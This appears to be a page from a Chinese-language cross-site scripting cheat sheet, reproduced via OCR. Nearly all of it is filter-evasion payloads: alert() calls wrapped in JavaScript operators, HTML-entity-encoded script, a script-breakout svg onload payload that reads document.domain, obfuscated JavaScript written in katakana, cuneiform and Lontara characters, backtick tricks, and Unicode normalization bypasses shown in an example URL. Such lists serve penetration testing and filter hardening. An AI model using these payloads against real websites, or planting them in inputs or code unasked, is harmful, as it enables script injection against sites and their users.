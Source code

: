 
  	Unicode 字符 U+FF1C 和 U+FF1E


  	'te' * alert('*') * 'xt';
  	'te' / alert('/') / 'xt';
  	'te' % alert('%') % 'xt';
  	'te' - alert('-') - 'xt';
  	'te' + alert('+') + 'xt';
  	'te' ^ alert('^') ^ 'xt';
  	'te' > alert('>') > 'xt';
  	'te' < alert('<') < 'xt';
  	'te' == alert('==') == 'xt';
  	'te' & alert('&') & 'xt';
  	'te' , alert(',') , 'xt';
  	'te' | alert('|') | 'xt';
  	'te' ? alert('ifelsesh') : 'xt';
  	'te' in alert('in') in 'xt';
  	'te' instanceof alert('instanceof') instanceof 'xt';
  ##### HTML 编码
  	%26%2397;lert(1)
  	&#97;&#108;&#101;&#114;&#116;
  	></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
  ##### 片假名库
	https://github.com/aemkei/katakana.js
	javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
  ##### 楔形文字
  	𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
  	𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
  	+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
  	+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
  ##### Lontara
  	ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()
  ##### ECMAScript6
  	<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
  ##### Unicode 
  	Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
  	transformed into U+003C LESS­THAN SIGN (<)
  	
  	Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
  	transformed into U+0022 QUOTATION MARK (")
  	
  	Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
  	transformed into U+0027 APOSTROPHE (')
  	
  	E.g : http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
  	%EF%BC%9E becomes >
  	%EF%BC%9C becomes <
  	